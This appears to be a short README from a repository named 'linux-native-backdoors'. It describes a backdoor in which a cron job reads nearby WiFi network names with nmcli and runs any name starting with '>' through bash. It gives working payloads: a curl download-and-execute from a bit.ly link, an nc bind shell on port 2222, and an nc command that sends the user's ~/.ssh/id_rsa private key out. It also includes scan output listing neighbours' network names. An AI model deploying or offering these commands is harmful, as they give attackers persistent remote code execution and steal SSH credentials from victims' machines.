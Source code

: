 linux-native-backdoors
======================

1. create a hotspot name such as:
">curl -sL bit.ly/getouch"

2. (download and execute) now schedule your backdoor cron, at, ...
bash -c "$(nmcli -f SSID dev wifi list | cut -f2 -d\' | egrep '^>' | cut -c2- | tail -n1)" | bash

3. you can change your hotspot name to execute any remote command!
">nc -e /bin/sh -l 2222"
">nc 127.0.0.1 20 <~/.ssh/id_rsa"
...

refs:
http://www.labofapenetrationtester.com/2014/08/Introducing-Gupt.html
http://www.wirelessforums.org/alt-internet-wireless/ssid-33892.html

##### NetworkManager (non-priviledge)
$ nmcli -t -f SIGNAL,SSID dev wifi list | sort -nr
85:'padrao'
52:'danger'
35:'Lucas'
30:'Privativac'
25:'Virginia'
20:'nelson munhoz'
20:'C & B'
19:'Leonardo'
10:'wmfamwir'
10:'maison'
9:'RAMIRES'
5:'MARCELO FARIA'


##### iwlist (priviledge)
##### TODO: fix regex
$ sudo iwlist wlan0 scanning | xargs | egrep -o '(ESSID:([0-9a-zA-Z]+)|l=\-[0-9]+)' | xargs | sed 's/l=//g;s/ ESSID:/:/g' | xargs -n1 | sort -n
-95:MARCELO
-92:maison
-90:Leonardo
-90:wmfamwir
-87:nelson
-82:Lucas
-78:Virginia
-70:danger
-66:Privativac
-43:padrao

